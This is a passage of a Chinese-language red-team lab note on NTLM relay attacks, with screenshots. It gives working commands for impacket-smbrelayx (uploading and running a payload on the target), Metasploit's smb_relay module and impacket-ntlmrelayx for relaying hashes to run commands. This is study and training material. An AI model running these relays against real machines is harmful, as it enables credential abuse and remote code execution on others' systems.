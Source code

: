![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/7.png)

此时，攻击者的 smbrelayx 脚本上就会发现命令成功执行了

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/9.png)

```
impacket-smbrelayx -h <被攻击ip> -e shell.exe
```
用 -e 选项会在目标主机上传并运行我们的 payload

---

### Metasploit smb_relay(08-068)

```
use exploit/windows/smb/smb_relay
run
```

在目标的 cmd 中执行 `net use \\<kali ip>\c$` 来访问攻击者搭建的恶意 smb 服务

---

### Impcaket ntlmrelayx

ntlmrelayx 脚本可以直接用现有的 hash 去尝试重放指定的机器
```
impacket-ntlmrelayx -t smb://<被攻击ip> -c whoami -smb2support
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/10.png)
